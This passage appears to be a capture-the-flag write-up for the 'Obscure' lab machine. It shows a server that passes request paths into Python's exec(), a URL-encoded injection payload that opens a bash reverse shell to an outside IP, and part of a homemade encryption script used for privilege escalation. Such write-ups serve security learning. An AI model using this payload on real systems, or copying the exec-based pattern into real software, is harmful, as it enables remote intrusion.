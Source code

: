 The interesting part in that code is the following 2 lines in function `serveDoc` under `Server` class:

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Here we see that it pass the path directly to the `exec()`. Now this isn't as easy as `eval()`, we'll have to

```
http://obscure.htb:8080/';__import__(%22os%22).system(%22bash%20-c%20'bash%20-i%20%3E&%20/dev/tcp/10.10.15.117/4445%200%3E&1'%22)%23
```


`python3 -c 'import pty; pty.spawn("/bin/sh")'`

***

## Horizontal Priv esc

In `/home/robert` we see that there is `SuperSecureCrypt.py` which is doing some kind of encryption.

```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')

parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)

parser.add_argument('-o',
                    metavar='OutFile',
                    type=str,
```